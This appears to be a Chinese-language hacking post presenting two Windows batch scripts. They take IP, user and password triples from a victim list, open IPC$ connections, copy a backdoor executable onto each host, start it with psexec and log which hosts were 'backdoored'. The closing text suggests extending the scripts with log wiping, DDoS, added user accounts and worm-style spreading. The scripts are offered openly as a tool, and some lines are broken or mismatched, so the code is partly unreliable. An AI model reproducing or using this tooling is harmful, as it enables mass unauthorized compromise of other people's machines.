

代碼雛形：
 
--------------- cut here then save as a batchfile(I call it main.bat ) ---------------------------
 
@echo off
 
@if \%1\==\\ goto usage
 
 
@for /f \tokens=1,2,3 delims= \ %%i in (victim.txt) do start call IPChack.bat %%
 
i %%j %%k
 
@goto end
 
:usage
 
@echo run this batch in dos modle.or just double-click it.
 
:end
 
--------------- cut here then save as a batchfile(I call it main.bat ) ---------------------------
 
 
 
 
 
------------------- cut here then save as a batchfile(I call it door.bat) -----------------------------
 
@net use \\%1\ipc$ %3 /u:\%2\
 
@if errorlevel 1 goto failed
 
@echo Trying to establish the IPC$ connection …………OK
 
@copy windrv32.exe\\%1\admin$\system32 && if not errorlevel 1 echo IP %1 USER %2
 
 PWD %3 >>ko.txt
 
@psexec \\%1 c:\winnt\system32\windrv32.exe
 
@psexec \\%1 net start windrv32 && if not errorlevel 1 echo %1 Backdoored >>ko.t
 
xt
 
:failed
 
@echo Sorry can not connected to the victim.
 
 
------------------------
 
這只是一個自動種植後門批處理的雛形，兩個批處理和後門程序（Windrv32.exe）,PSexec.exe需放在統一目錄下.批處理內容尚可擴展,例如:加入清除日誌+DDOS的功能,加入定時添加用戶的功能,更深入一點可以使之具備自動傳播功能(蠕蟲).此處不多做敘述,有興趣的朋友可自行研究.